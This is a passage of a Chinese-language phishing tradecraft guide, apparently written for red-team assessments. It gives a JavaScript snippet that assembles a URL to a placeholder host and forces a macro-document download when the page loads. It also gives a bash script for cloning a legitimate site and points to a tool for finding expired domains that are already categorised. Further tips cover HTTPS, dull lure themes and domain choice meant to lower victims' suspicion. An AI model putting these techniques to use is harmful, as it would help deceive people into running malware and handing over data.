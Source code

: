 但是如果使用JavaScript生成最终的链接像下面这样：
```
<a id="download" href="#">
download the code of conduct
</a>
<script>
document.getElementById("download").onclick= function() {
document.location= "https://phish" + "y.domain/pay" + "load.docm";
};
document.getElementById("download").click();
</script>
```

以上例子href是立即访问的，点开页面访问会跳转到【https://phishy.domain/payload.docm】这个地址。
网络钓鱼成功率与用户体验有很大关系。强制用户点击click()下载文件，浏览器会提示下载窗口。

#### 3.3  使用分类域名

在评估之前，简单地克隆一个合法网站。最好是安全产品已经分类好的信任域名。
```
#!/bin/bash
echo "Cloning $1"
wget $1 -O index.html &> /dev/null
TAG="<base href=\"$1\"/></head>"
sed '/<\/head>/i\'"$TAG" index.html | tee index.html &> /dev/null
echo "index.html was saved and modified"
```
**注：**代码内容为https://gist.github.com/Mr-Un1k0d3r/11bf902555d401c92c2e1b766275e6a2

搜索已被分类的过期域；这可能是有用的，也是最简单的分类域的方式。

```
 CatMyFishV1.0-搜索已经分类可用的域名 
https://github.com/Mr-Un1k0d3r/CatMyFish
```

#### 3.4  使用HTTPS

使用免费的HTTPS证书，搭建网站。

优点就在于不必验证攻击者的身份，也可以达到混淆受害者判断力的目的。


#### 3.5  钓鱼主题-尽可能的无聊

如果选用太好的钓鱼式题材，就不太可能像真的。

用无聊的钓鱼式主题，如：内部行为守则更新、强制骚扰在线课程、员工问卷调查等等，这些倾向类比较强的主题可以较少引起怀疑。

#### 3.6  避免使用拼写错误的域名

```
northsex.io   VS   northsec.canadianevent.com
```

作为第三方服务公司的一部分，使用子域往往会提供更好的结果，因为人们现在每天都使用云服务。

前者的钓鱼域名就是将真正域名的northsec改变了一个字母以此来迷惑用户。
